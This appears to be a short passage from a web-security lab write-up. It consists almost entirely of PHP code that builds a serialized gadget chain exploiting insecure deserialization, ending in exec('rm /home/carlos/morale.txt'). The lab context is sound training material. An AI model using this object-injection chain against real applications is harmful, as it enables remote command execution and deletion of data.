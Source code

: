 so the exploit should be 

```php
<?php

class CustomTemplate {
    private $default_desc_type;
    private $desc;
    public $product;

    public function __construct() {
        $this->desc = new DefaultMap();
        $this->default_desc_type = 'rm /home/carlos/morale.txt';
        // Carlos thought this is cool, having a function called in two places... What a genius
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}
class DefaultMap {
    private $callback;

    public function __construct($callback='exec') {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

$obj = new CustomTemplate();
$ser = serialize($obj);
echo $ser ;
?>
```
